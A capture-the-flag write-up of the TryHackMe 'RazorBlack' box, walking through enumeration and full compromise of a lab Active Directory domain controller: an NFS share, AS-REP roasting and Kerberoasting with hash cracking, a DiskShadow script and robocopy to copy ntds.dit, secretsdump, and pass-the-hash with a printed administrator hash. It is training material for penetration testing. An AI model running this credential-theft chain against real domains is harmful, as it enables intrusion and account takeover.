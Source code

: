 # THM - RazorBlack

#### Ip: 10.10.83.71
#### Name: RazorBlack
#### Rating: Medium

----------------------------------------------------------------------

razorblack.jpeg

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ sudo nmap -p-  --min-rate 10000 10.10.59.200  
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-22 10:33 CDT
Warning: 10.10.59.200 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.59.200
Host is up (0.13s latency).
Not shown: 64884 closed tcp ports (reset), 624 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
111/tcp   open  rpcbind
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
2049/tcp  open  nfs
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
49673/tcp open  unknown
49677/tcp open  unknown
49692/tcp open  unknown
49704/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 19.51 seconds
```

Woof, that's a lot of open ports. Rather than scanning for versions and using Nmap scripts, lets enumerate these manually. 

Becauset his appears to be a domain controller, lets use CrackmapExec to get the domain name, which we can then add to our `/etc/hosts` file:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ crackmapexec smb 10.10.59.200                           
SMB         10.10.59.200    445    HAVEN-DC         [*] Windows 10.0 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:False)
```

Taking a look at RPC on port 111, we see we can mount a sheare:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ showmount -e 10.10.59.200
Export list for 10.10.59.200:
/users (everyone)
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ mkdir /tmp/users         
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ sudo mount -t nfs 10.10.59.200:/users /tmp/users -o nolock
                                                                                                                                                                                                                                                       
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ sudo ls /tmp/users 
employee_status.xlsx  sbradley.txt
```

Cool, looks like two files, an employee status Excel document, and a file called sbradley.txt, which contains a flag (for this writeup I'll be skipping all the flag submissions for the challenge and just focusing on rooting the domain)

Taking a look at the Exel document we find a list of names. We can follow the naming convention from the sbradley.txt file and assume the convention is first_initial_last_name. Lets create a username file based on this logic:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ cat >> users.txt
dport
iroyce
tvidal
aedwards
cingram
ncassidy
rzaydan
lvetrova
rdelgado
twilliams
sbradley
clin
^C
```

Now that we have this, lets see what we can do with it.

### Exploitation

Trying impacket-GetNPUsers with the `-no-pass` flag set we are able to drop a hash!

npu.png

Lets put this hash in a file called twilliams_hash and try to crack it using JohnTheRipper:

twilliams.png

Nice, John cracked that easily. Now that we have some credentials, lets try using impacket-GetUserSPNs:

spn.png

We've got another hash! THis time for user xyan1d3.

Once again I'll ad this to a file called xyan1d3_hash and use John to crack it:

john2.png

Cool, that worked! We can now use Evil-WinRM to logon to the target:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ evil-winrm -i raz0rblack.thm -u xyan1d3 -p cyanide9amine5628
```

### Privilege Escalation

Taking a look at our privileges by running `whoami /all` we see the SeBackupPrivilege, which should hopefully be a way to escalate privileges by allowing us to obtain the ntds.dit file. 

To do this we'll need to creat a .dsh file and convert it to be compatible with Windows:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ cat >> hey.dsh 
set context persistent nowriters
add volume c: alias hey
create
expose %hey% z:
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ unix2dos hey.dsh   
unix2dos: converting file hey.dsh to DOS format...
```

Back on the target I'll create a TEMP file and upload the .dsh file using the `upload` feature in Evil-WinRM.

```text
*Evil-WinRM* PS C:\TEMP> upload ~/THM/RazorBlack/hey.dsh
Info: Uploading ~/THM/RazorBlack/hey.dsh to C:\TEMP\hey.dsh

                                                             
Data: 112 bytes of 112 bytes copied

Info: Upload successful!
```

We can now use DiskShadow to make a copy of the `C:\` drive:

disk.png

Now lets use robocopy to grab the ntds.dit file:

```text
*Evil-WinRM* PS C:\TEMP> robocopy /b z:\windows\ntds . ntds.dit
-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Tuesday, August 22, 2023 9:53:47 AM
   Source : z:\windows\ntds\
     Dest : C:\TEMP\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------
```

And we'll also want to grab the SYSTEM registry file too:

```text
*Evil-WinRM* PS C:\TEMP> reg save hklm\system SYSTEM
The operation completed successfully.
```

After using the `download` feature in Evil-WinRM to bring these files back to my attacking machine, I can use impacket-secretsdump to get the administrator's NTLM hash:

secrets.png

From here I can pass-the-hash to their account:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ evil-winrm -i raz0rblack.thm -u administrator -H 9689931bed40ca5a2ce1218210177f0c
```

And in the `administrator` folder we find a file called root.xml, which appears to be in hex:

hex.png

We can crack this using https://gchq.github.io/CyberChef/:

root_flag.png

Thanks for following along!

-Ryan

-----------------------------------------------------------